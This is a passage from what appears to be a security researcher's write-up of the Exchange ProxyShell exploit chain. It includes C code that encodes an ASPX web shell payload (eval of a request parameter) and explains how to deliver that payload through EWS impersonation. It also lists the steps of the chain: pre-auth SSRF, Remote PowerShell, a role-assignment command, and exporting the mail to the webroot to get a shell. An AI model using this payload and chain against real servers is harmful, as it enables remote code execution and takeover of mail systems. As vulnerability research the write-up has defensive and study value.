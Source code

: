 ```c
    for (; --cb >= 0; ++pb)
        *pb = pbTable[*pb];
}


void main() {
    char payload[] = "<script language='JScript' runat='server' Page aspcompat=true>function Page_Load(){eval(Request['cmd'],'unsafe');}</script>";
    int length = strlen(payload);
    CryptPermute(payload, length, false);
    printf(payload);
    printf("\r\n\r\n");
    printf(base64_encode((unsigned char*)payload, length).c_str());
}

```

Got encodeded data in base64 

<img width="852" alt="image" src="https://user-images.githubusercontent.com/37280106/130055140-a525182a-6261-4638-ad25-b5f27ab9b170.png">


Now we know how to encode our payload, how do we send mail to the Admin's mailbox ?

The original talk from Orange Tsai, he delivered the payload through SMTP, but I like the Jang and PeterJson's way more. That is [EWS Impersonation](https://docs.microsoft.com/en-us/exchange/client-developer/exchange-web-services/impersonation-and-ews-in-exchange)

By sending request to `/EWS/exchange.asmx` . We can create an email and save it in `Drafts` for any user via SOAP header `SerializedSecurityContext`


<img width="842" alt="image" src="https://user-images.githubusercontent.com/37280106/130030757-cc6ac13e-a8d4-4d75-993d-e44ebde5f26b.png">


<img width="1023" alt="image" src="https://user-images.githubusercontent.com/37280106/129873103-5b60af6e-8244-4e6f-9daa-6f40e5565389.png">

That's for the Post-Auth RCE part, for communicating with Remote Powershell, I follow the other researchers's way. Use  [pypsrp](https://www.bloggingforlogging.com/2018/08/14/powershell-remoting-on-python/), implement the proxy and forward requests to communicate with wsman

### 4. Chaining everything together - the ProxyShell

Now we have everything we need, let's chain it together:
- Use the Pre-auth SSRF to generate the token
- Use the token to request to Remote Powershell server
- Send email contains the malicious payload to user
- Assign Mailbox Import/Export role to our current session

```powershell
New-ManagementRoleAssignment -Role "Mailbox Import Export" -User email@email
```

- Export malicious email to webroot
- Enjoy the shell.
